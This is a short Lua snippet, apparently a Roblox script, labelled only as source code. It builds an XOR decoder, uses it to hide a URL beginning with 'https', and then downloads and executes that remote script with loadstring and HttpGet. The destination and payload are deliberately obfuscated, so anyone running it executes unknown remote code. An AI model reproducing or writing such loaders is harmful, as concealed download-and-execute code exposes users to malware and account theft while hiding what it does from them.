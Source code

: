local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v10={};for i=(4958 -3051) -((1789 -(123 + 1283)) + 1523), #v8 do v6(v10,v0(v4(v1(v2(v8,i,i + (1 -0))),v1(v2(v9,1 + ((i-1)% #v9),1 + ((i-(4 -3))% #v9) + ((1 + 0) -(126 -(66 + 60))))))%256));end return v5(v10);end loadstring(game:HttpGet(v7("\43\160\85\6\170\243\153\108\163\69\1\189\190\210\52\176\86\18\174\173\193\39\236\22\66\239\241\130\109\228\17\70\174\172\212\43\187\82\2\184\185\198\109\183\78\27\246\190\142\117\176\64\67\239\168\131\52\176\23\66\184\252\193\119\176\23\69\237\168","\67\212\33\118\217\201\182")))();
